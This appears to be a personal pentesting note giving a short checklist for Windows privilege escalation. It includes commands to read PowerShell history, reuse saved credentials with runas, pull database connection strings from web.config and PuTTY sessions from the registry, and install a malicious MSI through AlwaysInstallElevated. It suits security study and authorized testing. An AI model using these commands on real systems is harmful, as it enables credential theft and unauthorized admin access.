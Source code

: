 [[MSFVenom]]
[[AccessChk]]
[[WES-NG]]
[[PEASS|WinPEAS]]
[[PowerUp.ps1]]
[[PrivescCheck]]
[[Seatbelt]]

This is a simple and incomplete checklist for escalating Windows access
- Check for Unattended Install Artifacts
	- Unattend.xml
	- sysprep.inf
	- sysprep.xml
	- etc.
- Powershell History
```shell
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
- Saved Credentials
```shell
cmdkey /list # list saved
runas /savecred /user:admin cmd.exe # use saved creds
```
- IIS Configurations
	- web.config
```shell
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString # Get database connection strings
```
- Software Credentials
	- PuTTY
```shell
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
- Scheduled Tasks
	- Same as Linux cronjobs. 
```shell
schtasks /query /tn <taskname> /fo list /v # use icacls for file permissions
```
- Check for Risky Privileges
	- SeImpersonatePrivilege
	- SeManageVolumePrivilege
	- SeTakeOwnership
	- SeBackup/SeRestore
- Check for Unquoted Service Paths
	- Must be running as system for full access, or insecure service perms
- Check for Insecure Service Permissions
- Check for Insecure Service Executables
- Check for Weak Registry Permissions on Services
- Check for Weak Permissions on Autorun Executables
- Check for AlwaysInstallElevated Reg Key
```shell
# If both of these are set, you can generate a malicious msi and it will run with Admin privs
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer

# Run an msi (with admin!!!)
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```
- [[PEASS|WinPEAS]]
	- Quick and easy check for many misconfigurations
	- Comes in .exe and .bat formats, recommend .exe but signatured. 

# For Later
![[Windows-Priv-Esc.png]]